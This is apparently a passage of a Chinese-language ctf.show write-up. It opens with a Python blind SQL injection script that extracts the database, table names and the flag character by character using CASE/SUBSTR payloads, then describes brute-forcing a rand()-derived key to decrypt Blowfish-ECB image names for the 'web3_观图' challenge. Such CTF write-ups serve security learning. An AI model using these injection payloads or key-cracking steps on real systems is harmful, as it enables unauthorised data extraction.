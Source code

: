 
### Payload

> 
注入脚本


```
import requests

baseurl='http://ec9d42c5-9d82-47f6-b1e0-e6ad1f0ec75d.challenge.ctf.show:8080/index.php?id=1^'
value=""
for i in range(49,100):
    for j in range(38,128):
        # paylaod='case(ord(substr(database()from({})for(1))))when({})then(2)else(3)end'.format(i,j)
        # paylaod='case(ord(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema)regexp(database()))from({})for(1))))when({})then(2)else(3)end'.format(i,j)
        # paylaod='case(ord(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name)regexp(0x666c6167))from({})for(1))))when({})then(2)else(3)end'.format(i,j)
        paylaod='case(ord(substr((select(flag)from(flag))from({})for(1))))when({})then(2)else(3)end'.format(i,j)
        # "case(ord(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema)regexp(database()))from({0})for(1))))when({1})then(2)else(3)end".format(i, j)
        newurl=baseurl+paylaod
        rep=requests.get(newurl)
        # print(rep)
        if "I asked nothing" in rep.text:
            print(value)
            value+=chr(j)
            break

```

## web3_观图

### 考点

> 
openssl_decrypt加密


### 思路

> 
F12查看源码发现 `showImage.php?image=Z6Ilu83MIDw=`，访问 `showImage.php`查看源码，图片文件名是Z6Ilu83MIDw=经过bf-ecb算法用key得到的，key的生成方式为 `substr(md5('ctfshow'.rand()),3,8)`，查询rand() 函数若里面的参数为空，则返回 0 到 getrandmax() 之间的伪随机整数，getrandmax()函数返回随机数可能返回的最大值，既然有上限即可进行爆破来得出key值，为 `5a78dbb4`，然后利用 `openssl_decrypt($image, 'bf-ecb', $key)`，得到 `config.php`的值，传参 `?image=N6bf8Bd8jm0SpmTZGl0isw==`，下载图片得到flag


### Payload
